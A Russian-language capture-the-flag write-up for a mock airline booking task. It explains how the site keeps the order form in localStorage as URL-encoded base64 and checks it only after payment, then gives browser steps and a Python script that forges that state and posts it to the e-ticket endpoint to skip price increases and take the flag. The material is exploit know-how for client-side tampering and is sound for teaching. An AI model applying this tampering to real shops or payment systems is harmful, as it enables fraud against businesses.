 # Airlines: Write-up

К сожалению, в задаче уязвимостей оказалось больше, чем я ожидал, вследствие чего у задачи появился путь решения до того простой, что даже как-то обидно. С него и начнём.

## Путь, которого не должно было быть

Одна маленькая беда — и задача за 150 баллов превращается в задачу за 25 баллов. Следите за руками:

1. Заходим на сайт.
2. Заказываем билет из Ханты-Мансийска в Ханты-Мансийск за 0 ₽.
3. ...
4. Платить не надо, флаг наш.

## Путь, задуманный автором

На самом деле, конечно, покупать билет за 0 ₽ — какая-то глупость, так не бывает.

Вся задачка придумалась как шутка на злобу дня: ни для кого не секрет, что некоторые настоящие авиакомпании любят повышать стоимость билетов, когда этими билетами кто-то интересуется, играя в невидимую руку рынка и создавая мнимый ажиотаж. Само по себе это явление абсолютно нормально и естественно. Другое дело, чтот порой повышенный интерес к билетам появляется от того, что какой-то неудачливый пассажир пытается купить себе билет, но сайт ломается, и пассажиру приходится начинать по новой, и ещё по новой, и ещё раз, да ещё раз... Таким неудачливым пассажиром, в частности, не один раз оказывался автор задания.

Как должно было быть на самом деле:

1. Заходим на сайт.
2. Заказываем билет откуда угодно в Ханты-Мансийск.
3. Выбираем любой рейс дешевле пяти тысяч рублей — именно такую сумму мы можем скинуть данным нам промокодом.
4. Проходим форму из шести шагов. Замечаем, что с каждым шагом билет дорожает. 
5. К шагу с оплатой любой билет стоит больше, чем пять тысяч.

Открываем веб-инспектор и, внимательно пронализировав вкладки Network, Application и Sources, понимаем, что форма, на самом деле, заполняется строго на клиенте до самого последнего шага, хранится у клиента в LocalStorage в закодированном виде, и передаётся на сервер в таком же виде лишь на седьмом шаге — то есть, после оплаты.

Посмотреть, что именно хранится в LocalStorage, можно, сказав в браузерной консоли `localStorage.state`. Это строка, закодированная в base64, закодированная по URL-схеме, и в ней действительно лежит сериализованная форма. Прочитаем её уже написанной и данной нам функцией:

![](writeup/state.png)

Получается, что можно пропустить почти все шаги, сэкономив число запросов к серверу и наши деньги. 

Можно добиться результатом исключительно с помощью браузера:

1. Честно заполнить форму, дойдя до экрана «Недостаточно средств».
2. Открыть новую вкладку в инкогнито-режиме или сбросить куки.
3. Перенести туда `state` из `localStorage`.
4. Перейти по адресу `/place-an-order?step=7`. 
5. Убедиться, что цена не выросла, а, значит, нам хватает на билет.
6. Купить билет и забрать флаг.

А можно программно:

```python3
import requests
from urllib.parse import quote
from base64 import b64encode
import re

state = {
    "class": "basic",
    "date": "2021-03-27",
    "date_of_birth": "1979-10-01",
    "email": "a@a",
    "first": "Антон",
    "from": "Сургут",
    "hamburger": "on",
    "last": "Решала",
    "number": "279",
    "passport": "1234567890",
    "patronymic": "Борисович",
    "phone": "7987654321",
    "to": "Ханты-Мансийск",
    "valid_thru": "2022-03-27",
    "promocode": "TOKEN",
}


def serialize(state):
    res = ';'.join(f"{k}:{v}" for k, v in state.items())
    res = quote(res)
    res = str(b64encode(res.encode('ascii')), 'ascii')
    return res


def solve():
    url = 'https://airlines.s.2021.ugractf.ru'
    url = 'http://localhost:31337'
    s = requests.session()
    s.post(url + '/place-an-order', data={
        'from': 'Сургут · SGC',
        'to': 'Ханты-Мансийск · HMA',
        'date': '2021-03-27'
    })
    ticket = s.post(url + '/eticket', data={
        'sealedOrderData': serialize(state)
    }).text
    print(re.findall(r"ugra_[a-z0-9_]+", ticket)[0])


solve()
```
